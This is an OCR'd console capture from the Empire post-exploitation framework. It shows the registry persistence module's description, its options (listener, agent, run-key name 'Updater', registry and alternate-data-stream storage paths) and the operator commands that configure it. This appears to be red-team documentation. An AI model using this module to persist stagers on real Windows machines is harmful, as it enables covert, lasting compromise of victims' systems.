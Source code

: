 ```
  Persist a stager (or script) via the
  HKCU:SOFTWARE\Microsoft\Windows\CurrentVersion\Run registry
  key. This has an easy detection/removal rating.

Comments:
  https://github.com/mattifestation/PowerSploit/blob/master/Pe
  rsistence/Persistence.psm1

Options:

  Name       Required    Value                     Description
  ----       --------    -------                   -----------
  ProxyCreds False       default                   Proxy credentials                       
                                                   ([domain\]username:password) to use for 
                                                   request (default, none, or other).      
  EventLogID False                                 Store the script in the Application     
                                                   event log under the specified EventID.  
                                                   The ID needs to be unique/rare!         
  ExtFile    False                                 Use an external file for the payload    
                                                   instead of a stager.                    
  Cleanup    False                                 Switch. Cleanup the trigger and any     
                                                   script from specified location.         
  ADSPath    False                                 Alternate-data-stream location to store 
                                                   the script code.                        
  Agent      True        FD6A3MGY                  Agent to run module on.                 
  Listener   True                                  Listener to use.                        
  KeyName    True        Updater                   Key name for the run trigger.           
  RegPath    False       HKCU:Software\Microsoft\  Registry location to store the script   
                         Windows\CurrentVersion\D  code. Last element is the key name.     
                         ebug                    
  Proxy      False       default                   Proxy to use for request (default, none,
                                                   or other).                              
  UserAgent  False       default                   User-agent string to use for the staging
                                                   request (default, none, or other).      

(Empire: powershell/persistence/userland/registry) > set Listener https
(Empire: powershell/persistence/userland/registry) > info

              Name: Invoke-Registry
            Module: powershell/persistence/userland/registry
        NeedsAdmin: False
         OpsecSafe: False
          Language: powershell
MinLanguageVersion: 2
        Background: False
   OutputExtension: None

Authors:
  @mattifestation
  @harmj0y
  @enigma0x3

Description:
  Persist a stager (or script) via the
  HKCU:SOFTWARE\Microsoft\Windows\CurrentVersion\Run registry
  key. This has an easy detection/removal rating.

Comments:
  https://github.com/mattifestation/PowerSploit/blob/master/Pe
  rsistence/Persistence.psm1

Options:

```